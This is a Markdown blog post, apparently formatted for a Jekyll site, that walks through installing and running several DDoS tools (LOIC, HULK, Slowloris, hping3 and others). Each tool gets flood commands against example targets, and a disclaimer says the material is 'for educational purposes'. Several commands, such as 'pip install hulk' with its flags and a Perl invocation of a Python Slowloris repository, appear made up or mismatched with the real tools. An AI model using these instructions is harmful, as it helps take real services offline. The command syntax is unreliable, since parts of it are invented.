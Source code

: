 ```yaml
---
title: How to Install and Use DDoS Tools
date: 2025-02-12
categories: [Cybersecurity, Tools, DDoS]
tags: [ddos, loic, hulk, torshammer, slowloris, pyloris, hping3]
image:
  path: https://miro.medium.com/v2/resize:fit:720/format:webp/1*CS2xkaUsNsCpXlS8pYvltQ.png
  description: A comprehensive guide on installing and using various DDoS tools for educational purposes.
author: issue403
---
```


## Introduction

DDoS (Distributed Denial of Service) attacks are a type of cyber attack where multiple compromised systems flood a targeted server or network with traffic, overwhelming it and rendering it unavailable to legitimate users. In this writeup, we will guide you through the process of setting up and using various DDoS tools to conduct a DDoS attack.

## Prerequisites

- A Linux machine with at least 2 GB of RAM and a stable internet connection
- Basic knowledge of command-line interface (CLI)

## Installation and Usage

### LOIC (Low Orbit Ion Cannon)

1. Install Mono on your Linux machine  
```bash
sudo apt-get install mono-complete
```

2. Download the latest version of LOIC  
```bash
wget https://github.com/NewEraCracker/LOIC/releases/download/v2.1.2/loic_2.1.2.zip
```

3. Unzip the downloaded file  
```bash
unzip loic_2.1.2.zip
```

4. Navigate to the unzipped directory  
```bash
cd loic_2.1.2
```

5. Launch LOIC  
```bash
mono LOIC.exe
```

**Usage Instructions**  
- Select attack type (e.g., HTTP Flood) from drop-down  
- Enter target IP/Domain  
- Specify target port  
- Configure connections and duration  
- Click "Start" to initiate attack  
- Click "Stop" to terminate attack  

### HULK (High-Level Unconventional Load Killer)

1. Install HULK  
```bash
pip install hulk
```

2. Execute attack  
```bash
hulk -a <attack-type> -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
hulk -a http -t 192.168.1.100 -p 80 -d 60
```

### DDOS-Ripper

1. Install DDOS-Ripper  
```bash
git clone https://github.com/palahsu/DDoS-Ripper.git
cd DDoS-Ripper
./install.pl
```

2. Launch attack  
```bash
perl DRipper.pl -s <target-ip> -p <target-port> -t <attack-type> -d <duration>
```

**Example**  
```bash
perl DRipper.pl -s 192.168.1.100 -p 80 -t http -d 60
```

### Torshammer

1. Install Torshammer  
```bash
git clone https://github.com/dotfighter/torshammer.git
cd torshammer
./install.sh
```

2. Execute attack  
```bash
./torshammer.py -t <target-ip> -p <target-port> -r <requests-per-second> -d <duration>
```

**Example**  
```bash
./torshammer.py -t 192.168.1.100 -p 80 -r 1000 -d 60
```

### Slowloris

1. Install Slowloris  
```bash
git clone https://github.com/gkbrk/slowloris.git
```

2. Execute attack  
```bash
cd slowloris
perl slowloris.pl -dns <target-domain> -timeout 10
```

**Example**  
```bash
perl slowloris.pl -dns example.com -timeout 10
```

### PyLoris

1. Install PyLoris  
```bash
git clone https://github.com/NoLegalTech/pyloris.git
cd pyloris
pip install -r requirements.txt
```

2. Execute attack  
```bash
python pyloris.py <target-ip> <target-port> <number-of-sockets>
```

**Example**  
```bash
python pyloris.py 192.168.1.100 80 1000
```

### DDoSX

1. Install DDoSX  
```bash
git clone https://github.com/Bilalcaliskan/DDoSX.git
cd DDoSX
pip install -r requirements.txt
```

2. Execute attack  
```bash
python3 DDoSX.py -t <target-ip> -p <target-port> -d <duration>
```

**Example**  
```bash
python3 DDoSX.py -t 192.168.1.100 -p 80 -d 60
```

### SlowHTTPTest

1. Install SlowHTTPTest  
```bash
git clone https://github.com/shekyan/slowhttptest.git
cd slowhttptest
./configure
make
```

2. Execute attack  
```bash
./slowhttptest -c <concurrent-connections> -H -r <requests-per-second> -t <duration> -u <target-url>
```

**Example**  
```bash
./slowhttptest -c 100 -H -r 1000 -t 60 -u http://example.com
```

### Hping3

1. Install Hping3  
```bash
sudo apt-get install hping3
```

2. Execute attack  
```bash
hping3 -S <target-ip> -p <target-port> -i u<interval-in-ms> -c <number-of-packets>
```

**Example**  
```bash
hping3 -S 192.168.1.100 -p 80 -i u1000 -c 10000
```

## Disclaimer

> **WARNING**: Conducting DDoS attacks without explicit authorization is illegal in most jurisdictions. This material is provided for educational purposes only. The author assumes no responsibility for any misuse of this information. Always obtain written permission from the target system owner before conducting any security testing.

## Conclusion

This guide has demonstrated installation and usage procedures for various DDoS tools. Remember that ethical hacking principles require explicit authorization for any penetration testing activities. These techniques should only be used in controlled environments for legitimate security research purposes.
```

### Key Features of the Format:
1. **Front Matter**: Includes metadata like `title`, `date`, `categories`, `tags`, `image`, and `author`.
2. **Code Blocks**: Properly formatted with triple backticks and syntax highlighting.
3. **Sections**: Organized with clear headings and subheadings.
4. **Disclaimer**: Highlighted with a blockquote for emphasis.
5. **Conclusion**: Summarizes the purpose and ethical considerations.

This format is ready to be used in a Jekyll-based website. Simply save it as a `.md` file in the `_posts` directory with the appropriate date in the filename.
